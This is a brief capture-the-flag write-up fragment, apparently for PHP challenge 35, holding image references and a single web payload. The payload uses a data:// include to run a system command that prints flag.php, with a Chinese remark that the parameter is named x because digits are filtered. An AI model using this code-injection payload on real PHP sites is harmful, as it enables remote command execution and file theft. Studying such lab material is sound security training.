 # 35
![](vx_images/397917303071107.png)
```
?c=include$_GET[x]?>&x=data://text/plain,<?php system("tac flag.php");?>
```
参数换成x因为过滤了数字